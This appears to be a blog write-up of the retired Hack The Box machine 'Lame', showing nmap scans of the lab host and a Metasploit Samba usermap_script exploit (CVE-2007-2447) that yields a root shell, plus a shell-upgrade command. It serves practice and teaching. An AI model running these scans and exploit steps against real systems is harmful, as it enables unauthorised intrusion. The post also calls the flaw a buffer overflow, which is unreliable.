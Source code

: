 ```yaml
---
title: Lame
published: true
layout: post
---
```


<br />

---------------
Lame is an easy Linux machine, requiring only one exploit to obtain root access. It was the first machine published on Hack The Box and was often the first machine for new users prior to its retirement.

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**
2. Scan for **services** in these open ports
3. Scan for **vulnerabilities** in these services

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS -sU 10.10.10.3 -p- -T4 --min-rate 5000 -oG all_ports.txt --open -n -Pn
```

![Ports Scan](/assets/Lame/1.png)
<br />
<br />
<br />

There are **5 open ports**:
+ **21/tcp**
+ **22/tcp**
+ **139/tcp**
+ **445/tcp**
+ **3632/tcp**

<br />
Let's check which **services** are running in these ports:

```bash
sudo nmap -sS 10.10.10.3 -p 21,22,139,445,3632 -T4 --min-rate 5000 -oX open_ports.xml -oN open_ports.txt --version-all -n -Pn -A -v
```

![Services Scan](/assets/Lame/2.png)
<br />
<br />
<br />

We can see that the services correspond to:
+ **21/tcp vsftpd 2.3.4**
+ **22/tcp OpenSSH 4.7p1**
+ **139/tcp Samba smbd 3.X - 4.X**
+ **445/tcp Samba smbd 3.0.20**
+ **3632/tcp distccd v1 4.2.4**

<br />

Now we will seek for **vulnerabilities**, however the scan didn't return any useful information.

<br />

------

<br />
### Foothold

This machine was **quite realistic** for one reason, **everything was vulnerable**:
+ The version of **FTP** allowed an **RCE**, however it was **patched**.
+ The version of **OpenSSH** allowed **user enumeration**, and it allowed me to do so, however it didn't return any useful information.
+ The version of **Samba** allowed a **buffer overflow**, and it allowed me to hack into the machine.
+ **DistCC daemon** should have allowed an **RCE**, however it was **patched**.

<br />

I tried every possible working exploit until I found the **Samba** one, which casually was the latest one. The exploit leverages **CVE-2007-2447**, although I found a script from the repository of **un4gi**, it did not work for me, however I encourage everyone to try it as the other tool we can use is **Metasploit**.

<br />

We can run Metasploit and configure it by running the following commands:

```bash
sudo msfdb run
use exploit/multi/samba/usermap_script
set lhost tun0
set rhost 10.10.10.3
run
```

![Metasploit Configuration](/assets/Lame/3.png)
<br />
<br />
<br />

We should be now logged in as the **root user**:
![Root Own](/assets/Lame/4.png)
<br />
<br />
<br />

We can **sanitize the shell** and then print the **flags**:

```bash
script /dev/null -c /bin/bash
```

![Flags](/assets/Lame/5.png)
<br />
<br />
<br />
